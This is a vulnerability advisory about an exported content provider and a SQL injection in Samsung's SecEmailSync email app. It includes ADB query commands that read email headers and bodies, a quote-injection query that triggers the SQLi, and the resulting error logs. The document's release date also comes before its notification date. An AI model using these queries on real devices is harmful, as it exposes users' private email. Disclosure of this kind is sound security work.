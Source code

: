 # Exposed provider and SQLi in SecEmailSync #

* _Authors_: Roberto Paleari ([@rpaleari](https://twitter.com/rpaleari)) and Aristide Fattori ([@joystick](https://twitter.com/joystick))
* _Samsung ID_: SVE-2015-5081
* _Notification date_: 29/10/2015
* _Release date_: 02/02/2015

We identified some vulnerabilities and insecure settings in
Samsung proprietary e-mail application, `SecEmailSync`, distributed with recent
Android-based Samsung phones. These vulnerabilities can be exploited by any
local application to access a victim's e-mail messages. The attacker App does
not require any specific privilege, so the attack is quite stealthy.

## Exposed content provider ##

Recent Samsung Android phones include a proprietary application, named
`SecEmailSync` (package `com.samsung.android.email.sync`). This App exposes
multiple services and content providers, some of which are accessible by any
unprivileged local applications.

Among these, we focused on the content provider `.homecard.OtherProvider`. The
relevant manifest entry follows:

	<provider android:authorities="com.samsung.android.email.otherprovider" android:exported="true"
	android:name="com.samsung.android.email.sync.homecard.OtherProvider"/>

As can be seen from this snippet, this provider is exported and can thus be queried
by any other local application, without requiring any specific privilege.

We investigated the inner workings of this provider and detected it can be
abused to access e-mail messages handled by Samsung proprietary application
(`SecEmail`).

As an example, the following ADB command demonstrates how it is possible to
query the content provider to extract the e-mails sent by a given sender (in
this case, `bobby@mysite.it`):

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/header --where bobby@mysite.it
	Row: 0 timeStamp=1446119267000, subject=Test email, _id=1997

URI `content://com.samsung.android.email.otherprovider/body` also gives access
to the e-mail body:

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/body --where bobby@mysite.it
	Row: 0 htmlContent=NULL, textContent=Email body

It is not even required to know the e-mail address of a valid sender, as
passing "`@`" as the e-mail address would suffice to match all the e-mails
available.

## SQL injection ##

Even worse, the very same content provider is affected by a SQL injection
(SQLi) issue. As an example, the following query triggers the vulnerability:

	$ adb shell content query --uri content://com.samsung.android.email.otherprovider/body --where "test@me'"

When this query is processed, the following messages are recorded in the
Android logs (logs have been truncated due to space contraints):

	E/DatabaseUtils( 5454): android.database.sqlite.SQLiteException: unrecognized token: "') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10" (code 1): , while compiling: SELECT timeStamp, subject, _id FROM Message WHERE (fromList like '%test@me'%') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10
	E/DatabaseUtils( 5454): #################################################################
	E/DatabaseUtils( 5454): Error Code : 1 (SQLITE_ERROR)
	E/DatabaseUtils( 5454): Caused By : SQL(query) error or missing database.
	E/DatabaseUtils( 5454):		(unrecognized token: "') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10" (code 1): , while compiling: SELECT timeStamp, subject, _id FROM Message WHERE (fromList like '%test@me'%') ORDER BY timeStamp COLLATE NOCASE DESC  LIMIT 10)
	E/DatabaseUtils( 5454): #################################################################
	E/DatabaseUtils( 5454):		at android.database.sqlite.SQLiteConnection.nativePrepareStatement(Native Method)
	....
	E/DatabaseUtils( 5454):		at com.samsung.android.email.provider.provider.database.AbsEmailProvider.query(AbsEmailProvider.java:1986)

The SQLi can be obviously exploited to extract arbitrary data from the SQL
tables managed by the content provider.

## Affected devices ##

We confirm these issues affect the following device models. Other models and
firmware versions are probably affected as well, but they were not tested.

* SM-G920F, build G920FXXU2COH2 (Galaxy S6)

The vulnerabilities discussed in this advisory have already been patched by
Samsung, in their January Android Security Update
([SMR-JAN-2016](http://security.samsungmobile.com/smrupdate.html#SMR-JAN-2016)).
